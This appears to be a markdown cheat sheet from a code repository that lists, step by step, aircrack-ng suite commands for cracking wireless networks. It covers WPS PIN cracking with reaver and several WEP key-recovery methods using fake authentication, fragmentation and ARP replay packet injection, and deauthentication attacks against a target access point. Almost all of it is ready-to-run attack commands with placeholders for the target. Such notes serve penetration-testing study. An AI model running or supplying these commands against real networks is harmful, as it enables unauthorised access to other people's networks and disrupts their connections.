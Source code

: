 # wireless-cracking

## Info Gathering
- Get MAC Address of wireless network card
```
macchanger --show <INTERFACE>
```
- List wireless network info
```
iwconfig
```

## WPS Attack
1. Put the interface into monitor mode
```
airmon-ng start wlan0
```
2. Gain the information of the interface
```
wash -i wlan0mon
```
3. Crack the pin
```
sudo reaver -b <bssid of the AP> -i wlan0mon -v -K
```

## WEP Cracking (Clientless)
1. Put the interface into monitor mode
```
airmon-ng start wlan0
```
2. Gain the information of the interface
```
airodump-ng wlan0mon
```
3. Capture the traffic and specify the Target AP
```
sudo airodump-ng -c <channel> --bssid <bssid of the AP> -w <output filename> wlan0mon
```
4. Do a fake authentication
```
aireplay-ng -1 0 -e <wifi name(ssid)> -a <bssid of the AP> -h <wireless card MAC addr> wlan0mon
```
5. If no client then do a fragmentation attack (-5) and obtain the Keystream file (If fragmentation not success then use Chopchop technique -4)
```
aireplay-ng -5 -b <bssid of the AP> -h <wireless card MAC addr> wlan0mon    
```
6. Then the Keystream file (.xor) is obtained
7. Create ARP packet
```
packetforge-ng -0 -a <bssid of the AP> -h <wireless card MAC addr> -k 255.255.255.255 -l 255.255.255.255 -y fragment-0203-180343.xor(Keystream file) -w arp-request
```
8. Inject the forged ARP packet
```
aireplay-ng -2 -r arp-request wlan0mon
```
9. Crack and obtain wireless key
```
aircrack-ng -b <bssid of the AP> <captured file (.cap)>
```

## WEP Cracking (Connected Client)
1. Put the interface into monitor mode
```
airmon-ng start wlan0
```
2. Gain the information of the interface
```
airodump-ng wlan0mon
```
3. Capture the traffic and specify the Target AP
```
sudo airodump-ng -c <channel> --bssid <bssid of the AP> -w <output filename> wlan0mon
```
4. Do a fake authentication
```
aireplay-ng -1 0 -e <wifi name(ssid)> -a <bssid of the AP> -h <wireless card MAC addr> wlan0mon
```
5. Then the Keystream file (.xor) is obtained
6. Do a fake authentication again with Keystream file
```
aireplay-ng -1 0 -e <wifi name(ssid)> -y <obtained_keystreamfile> -a <bssid of the AP> -h <wireless card MAC addr> wlan0mon
```
7. Do a ARP replay attack
```
aireplay-ng -3 -b <bssid of the AP> -h <wireless card MAC addr> wlan0mon    
```
8. Crack and obtain wireless key
```
aircrack-ng -b <bssid of the AP> <captured file (.cap)>
```

## WEP Cracking (Connected Client [Other Method])
1. Put the interface into monitor mode
```
airmon-ng start wlan0
```
2. Gain the information of the interface
```
airodump-ng wlan0mon
```
3. Capture the traffic and specify the Target AP
```
sudo airodump-ng -c <channel> --bssid <bssid of the AP> -w <output filename> wlan0mon
```
4. Do a fake authentication
```
aireplay-ng -1 0 -e <wifi name(ssid)> -a <bssid of the AP> -h <wireless card MAC addr> wlan0mon
```
5. Do a ARP replay attack
```
aireplay-ng -3 -b <bssid of the AP> -h <wireless card MAC addr> wlan0mon    
```
6. Do a Deauthentication attack
```
aireplay-ng -0 1 -a <bssid of the AP> -h <wireless card MAC addr> wlan0mon    
```
8. Crack and obtain wireless key
```
aircrack-ng <captured file (.cap)>
```

**Remark:** 
- `If Fake authentication not working then use Interactive packet replay attack`
5. Interactive packet replay attack
```
aireplay-ng -2 -b <bssid of the AP> -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 <INTERFACE>
```
or
```
aireplay-ng -2 -r <captured file (.cap)> wlan0mon
```
6. Crack and obtain wireless key
```
aircrack-ng <captured file (.cap)>
```
